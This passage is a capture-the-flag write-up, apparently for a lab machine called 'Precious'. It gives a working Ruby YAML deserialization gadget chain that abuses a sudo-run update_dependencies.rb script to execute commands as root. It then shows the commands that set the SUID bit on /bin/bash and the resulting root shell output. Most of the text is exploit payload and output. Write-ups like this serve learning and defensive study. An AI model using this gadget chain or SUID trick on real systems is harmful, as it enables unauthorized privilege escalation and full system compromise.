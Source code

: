 ```shell
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

output after executing the script with this snippet saved as `dependencies.yml`

```shell
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
...
```

where the command `id` is typed we need to input our root commands. lets get a root shell.

```shell
...
	git_set: chmod u+s /bin/bash
...
```

first we set suid bit for bash binary.

```shell
...
	git_set: /bin/bash
...
```

then executed the binary and got a root shell.

```shell
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/home/henry# id
uid=0(root) gid=0(root) groups=0(root)
```
